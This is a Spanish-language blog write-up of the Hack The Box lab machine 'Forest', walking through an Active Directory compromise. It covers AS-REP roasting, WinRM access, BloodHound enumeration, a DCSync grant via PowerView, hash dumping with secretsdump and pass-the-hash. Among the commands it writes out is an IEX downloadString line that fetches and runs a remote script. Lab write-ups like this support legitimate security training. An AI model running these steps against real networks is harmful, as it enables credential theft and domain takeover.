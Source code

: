 ```yaml
---
layout: post
title: Forest
parent: HackTheBox
---
```

# Forest
{: .no_toc }

## Contenidos
{: .no_toc .text-delta}

1. TOC
{:toc}

---
{:.lead}

![](/assets/img/HTB_Forest/F0.png)

Esta maquina es de las primeras que nos sugiere la plataforma **Hack The Box**, para practicar **`Active Directory`**, es una maquina de dificultad **Easy**, pero aun asi... Tiene mucho que ofrecer.

Como siempre, comenzaremos con el **Port Scanning**:
![](/assets/img/HTB_Forest/F1.png)

Podemos apreciar que tendremos muchos puertos abiertos, por lo que podemos deducir que estamos contra un sistema operativo **Microsoft-Windows**, aunque esto tambien lo podemos saber por el TTL al momento de enviar un pauquete con el comando **ping**.

Nos queda ver los servicios y las versiones usadas para el servicio, por lo que tiramos del nmap:
```bash
nmap -sCV -p"Puertos" <IP>
```
![](/assets/img/HTB_Forest/F2.png)

Desde aqui ya podemos ir viendo datos interesantes, como lo puede ser un dominio **htb.local**, pero para asegurarnos usaremos herramientas de reconocimiento, como lo puede ser **Crackmapexec**
![](/assets/img/HTB_Forest/F3.png)

Podemos apreciar que se repite el mismo dominio: **"htb.local"**, por lo que lo podemos agregar al archivo del **/etc/hosts**, tambien vemos que posiblemente tengamos vias potenciales por el servicio **WinRM**.

Pero si queremos listar archivos o informacion por medio del SMB, no vamos a ver nada:
![](/assets/img/HTB_Forest/F4.png)

Aqui es donde entra una herramienta que nos trae por defecto sistemas como Parrot o Kali: **GetNPUsers.py**
![](/assets/img/HTB_Forest/F5.png)

Como nos reporta la informacion, vamos  a usar una de sus funciones, especificamente la primera, pero vamos a necesitar listar un usuario valido... Asi que lo vamos a listar sin pasarle ningun parametro:
![](/assets/img/HTB_Forest/F6.png)
Asi que ya  vamos a poder tener su TGT:
![](/assets/img/HTB_Forest/F7.png)
Entonces nos quedaria aplicarle Brute Force a al TGT que acabamos de obtener:
![](/assets/img/HTB_Forest/F8.png)
Vemos que tenemos credenciales para el usuario **svc-alfresco**, asi que veremos si nos da un **pwned** con Crackmapexec:

![](/assets/img/HTB_Forest/F9.png)

Usamos la herramienta **evil-winrm** para conectarnos usando las credenciales que acabamos de obtener:
![](/assets/img/HTB_Forest/F10.png)

Una vez lograda la intrusion como usuario de bajos privilegios, nos toca llegar al usuario administrador, por lo que necesitaremos de una herramienta que nos liste vias potenciales para logarlo... Aqui es donde entra **BloodHound**

Iniciaremos **Neo4j**, y luego abriremos BloodHound para vinculara a la base de datos del Neo4j.
![](/assets/img/HTB_Forest/F11.png)
Una vez en la maquina necesitaremos de una herramienta:

* [Sharphound](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1)

La compartiremos a la maquina, existen varias formas... Yo use esta:

```powershell
Invoke-WebRequest -Uri "<IP>/SharpHound.ps1" -OutFile "Directorio en la maquina"
```
Otra puede ser:

```powershell
IEX(New-Object Net.WebClient).downloadString('http://ruta-del-archivo/mi-script.ps1')
```

Como sea, lo ejecutamos y obtendremos informacion que cargaremos al BloodHound en formato **.zip**
![](/assets/img/HTB_Forest/F12.png)

Una vez cargado en el **BloodHound**, nos dirigimos al usuario del que tenemos credenciales para ver rutas que nos permitan elevar nuestros privilegios:
![](/assets/img/HTB_Forest/F13.png)

Si vemos la rama que nos lleva directamente al usuario administrador vemos que existe un privilegio que poseemos, este nos permite modificar el **DACL**.

![](/assets/img/HTB_Forest/F14.png)

BloodHound nos va a dar una pista de como conseguir escalar privilegios:

![](/assets/img/HTB_Forest/F15.png)

Primero, veremos los grupos disponibles:
![](/assets/img/HTB_Forest/F16.png)

* Vemos que tenemos disponible el "Exchange Windows Permissions"

Entonces lo que haremos a continuacion es crear un usuario y agregarlo a ese grupo:

```powershell
net user <Usuario> <Password> /add /domain
net group "NOMBRE DEL GRUPO" <usuario> /add
```
![](/assets/img/HTB_Forest/F17.png)

Nos quedaria aplicar lo que nos dice BloodHound:

```powershell
$SecPassword = ConvertTo-SecureString '<Password>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\user', $SecPassword)
```

* Ahora bien, necesitaremos importar un binario en Powershell, [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)

Una vez obtenido el binario, procuraremos a importarlo:

```powershell
Import-Module ./<Nombre del binario>
# Acto seguido Corremos el siguiente comando:
Add-DomainObjectAcl -Credential $Cred -TargetIdentity 'htb.local\Domain Admins' -PrincipalIdentity <Usuario> -Rights DCSync
```
![](/assets/img/HTB_Forest/F18.png)

Por lo que nos quedaria dumpear la informacion, empleando la herramienta **"secretsdump.py"**

```bash
secretsdump.py htb.local/<USER>@10.10.10.161
```
![](/assets/img/HTB_Forest/F19.png)

Como podemos ver, hemos dumpeado los hashes del administrador, por lo que ahora nos quedaria hacer un **"pass the hash"**:

![](/assets/img/HTB_Forest/F20.png)

# FIN
